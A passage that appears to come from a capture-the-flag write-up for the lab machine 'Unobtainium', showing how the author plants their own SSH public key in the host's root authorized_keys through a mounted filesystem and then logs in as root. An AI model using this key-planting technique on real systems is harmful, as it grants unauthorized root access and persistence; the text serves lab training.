Creating _.ssh_ directory in the _/root_ directory and adding our public SSH key into _authorized_keys_:
```
mkdir /mnt/root/.ssh

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAA(...)" > /mnt/root/.ssh/authorized_keys
```

The changes are done on the host box and it is possible to login into the box as root!
```
ssh -i unobtainium 10.10.10.235
```

